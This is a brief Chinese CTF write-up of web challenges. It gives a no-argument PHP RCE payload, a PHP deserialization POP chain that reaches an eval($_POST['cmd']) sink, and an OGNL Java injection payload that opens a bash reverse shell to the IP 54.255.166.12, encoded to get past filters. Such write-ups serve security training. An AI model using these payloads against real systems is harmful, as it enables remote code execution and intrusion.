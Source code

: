 # web
### babyphp
#无参rce 
`command=show_source(array_rand(array_flip(scandir(getcwd()))));`


### pain
#ongl #java 0
表达式注入,使用unicode编码绕过
```shell
(new java.lang.ProcessBuilder(new java.lang.String[]{'bash','-c','bash -i >& /dev/tcp/54.255.166.12/80 0>&1'})).start()
```
先unicode编码后url编码

### 我全都要
```php
<?php
highlight_file(__FILE__);

class B{
    public $pop;
    public $i;
    public $nogame;

    public function __destruct()
    {
        if(preg_match("/233333333/",$this->pop)){
            echo "这是一道签到题，不能让新生一直做不出来遭受打击";
        }
    }

    public function game(){
        echo "扣1送地狱火";
        if ($this->i = "1"){
            echo '<img src=\'R.jpg\'>';
            $this->nogame->love();
        }
    }

    public function __clone(){
        echo "必须执行";
        eval($_POST["cmd"]);
    }
}


class A{
    public $Aec;
    public $girl;
    public $boy;

    // public function __toString()
    // {
    //     echo "I also want to fall in love";
    //     if($this->girl != $this->boy && md5($this->girl) == md5($this->boy)){
    //         $this->Aec->game();
    //     }
    // }


}


class P{
    public $MyLover;
    public function __call($name, $arguments)
    {
        echo "有对象我会在这打CTF???看我克隆一个对象！";
        if ($name != "game") {
            echo "打游戏去，别想着对象了";
            $this->MyLover = clone new B;
        }
    }


}

$a=new B();
$b=new A();
$c=new P();
$d=new B();

$a->pop=$b;
$b->boy=array('a');
$b->girl=array('b');
$b->Aec=$d;
$d->i=1;
$d->nogame=$c;
$c->MyLover=$d;
echo(serialize($a));
```

### DoyouknowCC


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-09-08   14:57